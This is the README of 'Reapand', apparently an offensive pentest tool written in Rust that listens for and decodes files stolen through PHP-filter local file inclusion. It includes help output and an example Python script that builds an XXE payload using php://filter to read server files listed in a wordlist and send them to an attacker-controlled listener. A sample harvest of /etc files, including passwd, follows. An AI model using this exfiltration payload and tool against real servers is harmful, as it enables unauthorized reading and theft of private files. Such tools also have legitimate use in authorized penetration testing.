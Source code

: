# Reapand 
## Author: [Raphael Dray](https://www.linkedin.com/in/raphaeldray/)
Reapand is a fast command line tool written in Rust, built to reap data from 
LFI/[PHP-Filters](https://www.php.net/manual/en/filters.php) source for example.

For now the tool supports principals encoding of php-filters:
* **Zlib**
* **Bzip2**
* **Base64**

It also serves local files and so can be used to serve malicious files
during Out Of Bound exploitation.

Its main purpose is to be used in conjunction with a script that 
uses a wordlist of interesting files.

Reapand is licensed under the Apache 2.0 License.
## Command Line Usage
```
@@@@@@@   @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@  @@@  @@@@@@@
@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@ @@@  @@@@@@@@
@@!  @@@  @@!       @@!  @@@  @@!  @@@  @@!  @@@  @@!@!@@@  @@!  @@@
!@!  @!@  !@!       !@!  @!@  !@!  @!@  !@!  @!@  !@!!@!@!  !@!  @!@
@!@!!@!   @!!!:!    @!@!@!@!  @!@@!@!   @!@!@!@!  @!@ !!@!  @!@  !@!
!!@!@!    !!!!!:    !!!@!!!!  !!@!!!    !!!@!!!!  !@!  !!!  !@!  !!!
!!: :!!   !!:       !!:  !!!  !!:       !!:  !!!  !!:  !!!  !!:  !!!
:!:  !:!  :!:       :!:  !:!  :!:       :!:  !:!  :!:  !:!  :!:  !:!
::   :::   :: ::::  ::   :::   ::       ::   :::   ::   ::   :::: ::
 :   : :  : :: ::    :   : :   :         :   : :  ::    :   :: :  :

reapand 1.3.0
Raphael Dray <dray.raph@gmail.com>
Create files by decoding client input from specified encodings

USAGE:
    reapand.exe [OPTIONS] --encode <encoding>... [--] [ip|hostname]

OPTIONS:
    -h, --help       Print help information
    -V, --version    Print version information

ENCODING:
    -e, --encode <encoding>...    Order of encoding applied to the content [possible values: b64,
                                  zlib, bzip2, rot13]

LISTENER:
    -p, --port <port>    Port Listener [default: 4444]
    <ip|hostname>    Host Listener [default: 0.0.0.0]

OUTPUT:
    -d, --dir <dir>    Directory in which will be saved files [default: .]

Command Line Usage Examples:
reapand -e b64,zlib -p 20000 -d files/
reapand -e b64,bzip2 -- 127.0.0.1
```

### Example
In order to use this tool we can build a tiny python script 
during the exploitation of there an XXE2LFI:
```python
#!/usr/bin/env python3

from time import sleep
from requests import Session
from sys import argv

s = Session()

LISTENER_IP = argv[1]
LISTENER_PORT = argv[2]
TARGET_URL = argv[3]
WORDLIST = argv[4]

ENCODINGS = [
    "bzip2.compress",
    "convert.base64-encode"
]

LFI_PAYLOAD = f"""
<!ENTITY % file SYSTEM "php://filter/{"/".join(ENCODINGS)}/resource=[FILE]">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://{LISTENER_IP}:{LISTENER_PORT}/[REAPAND_FMT_FILE]?%file;'>">
%eval;
%exfiltrate;
"""

with open(WORDLIST) as f:
    for l in f:
        with open("evil.dtd", "w") as writer:
            writer.write(LFI_PAYLOAD.replace("[FILE]", l.strip("\n")).replace("[REAPAND_FMT_FILE]", l.replace("/", "_").strip("\n")))

        s.post(TARGET_URL, files={'text': open("CV.docx", "rb")}, data={
            "name": "reapand",
            "email": "reapand",
            "submit": "submit"
        })
        sleep(1)
```

Note, this script is just an example of what you could build in 
conjunction with Reapand.
![Reapand Handling Requests](images/reapand_handling_requests.png)
```bash
❯ tree -R files/
files/
└── etc
    ├── crontab
    ├── fstab
    ├── hosts
    ├── hosts.allow
    ├── hosts.deny
    ├── issue
    ├── lsb-release
    ├── mtab
    ├── network
    │   └── interfaces
    ├── networks
    └── passwd

2 directories, 11 files
```

Then we get all the content of the readable files on the remote filesystem !